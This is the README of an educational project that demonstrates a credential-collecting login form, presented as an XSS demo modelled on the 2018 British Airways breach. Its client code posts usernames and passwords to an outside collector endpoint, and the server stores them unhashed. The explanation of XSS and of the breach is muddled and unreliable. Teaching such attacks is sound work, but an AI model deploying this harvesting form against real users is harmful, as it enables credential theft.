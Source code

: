 # XSS Attack Project

## Disclaimer
This project is intended for educational purposes only. Cross-Site Scripting (XSS) is a security vulnerability that should only be tested responsibly and with proper authorization. Unauthorized testing of XSS vulnerabilities is illegal and unethical.

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

- [XSS Attack Project](#xss-attack-project)
  - [Disclaimer](#disclaimer)
  - [Project Description](#project-description)
  - [Table of Contents](#table-of-contents)
  - [Installation](#installation)
  - [How to run the code](#how-to-run-the-code)
  - [Client Side Code](#client-side-code)
    - [Explanation](#explanation)
  - [XSS Demo Video](#xss-demo-video)
  - [British Airways Data Breach Simulation](#british-airways-data-breach-simulation)
    - [Back Story](#back-story)
    - [Simulation Details](#simulation-details)
    - [Relevant Links](#relevant-links)
  - [Contribution Guidelines](#contribution-guidelines)
  - [License Information](#license-information)
  - [Additional Resources](#additional-resources)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Ensure you have Git installed on your machine. You can download it from [Git](https://git-scm.com/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* It is recommended to run this project in a local or isolated environment due to potentially sensitive login data. But you can run on GitHub Codespace as well.
* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

### Explanation
The client-side code handles the user input from the login form. When the login button is clicked, the `sendLoginToAPI` function is triggered. This function collects the username and password entered by the user and sends them to the server using an AJAX POST request. The server then processes this data and saves it to a JSON file. The XSS vulnerability could be exploited if an attacker injects malicious scripts into the username or password fields, which would then be executed when the data is processed or displayed.

## XSS Demo Video
<details><summary>View Demo Video</summary>


https://github.com/user-attachments/assets/289917ae-d0b3-43f3-8b9d-1af6f298c824

</details>


## British Airways Data Breach Simulation

### Back Story
In 2018, British Airways experienced a significant data breach that affected approximately 400,000 customers. The breach was a result of attackers exploiting vulnerabilities in the British Airways website, allowing them to steal sensitive customer information, including personal and financial data. The incident highlighted the importance of robust security measures to protect user data and prevent unauthorized access.

### Simulation Details
This project simulates the British Airways data breach by demonstrating several key vulnerabilities that were present in the actual incident. Here are the specific ways in which this project mirrors the British Airways data breach:

- **Cross-Site Scripting (XSS)**: The project demonstrates how an attacker can inject malicious scripts into the username or password fields of a login form. This is similar to how attackers exploited vulnerabilities in the British Airways website to steal customer data. The client-side code in `client_code.html` and the server-side code in `server.js` illustrate this vulnerability.

- **Insecure Data Storage**: The project saves login data, including usernames and passwords, to a JSON file (`users.json`) without any encryption or hashing. This mirrors the lack of proper data protection measures that contributed to the British Airways data breach.

- **Lack of Input Validation**: The server-side code in `server.js` performs only basic validation for the presence of username and password fields. It does not sanitize or validate the input to prevent malicious data from being processed, similar to the insufficient input validation that allowed attackers to exploit the British Airways website.

- **CORS Misconfiguration**: The server in `server.js` enables CORS (Cross-Origin Resource Sharing) without any restrictions, which can allow unauthorized domains to interact with the server and potentially exploit vulnerabilities. This is akin to the misconfigurations that can lead to data breaches like the one experienced by British Airways.

These vulnerabilities highlight the importance of implementing proper security measures, such as input validation, data encryption, and secure CORS configurations, to protect against attacks and ensure the safety of user data.

### Relevant Links
For more information about the British Airways data breach, you can refer to the following links:

- [British Airways hacked, hundreds of thousands of credit card numbers stolen](https://www.techradar.com/news/british-airways-hacked-hundreds-of-thousands-of-credit-card-numbers-stolen)
- [British Airways fined £20m over data breach](https://www.bbc.com/news/technology-54568784)
- [British Airways data breach: What you need to know](https://www.csoonline.com/article/3444488/british-airways-data-breach-what-you-need-to-know.html)
- [British Airways data breach: What happened and what to do](https://www.itpro.co.uk/security/32117/british-airways-data-breach-what-happened-and-what-to-do)

These articles provide comprehensive insights into the breach, its impact, and the subsequent actions taken. 

## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the Apache License, Version 2.0.

## Additional Resources

* [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
* [MDN Web Docs: Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
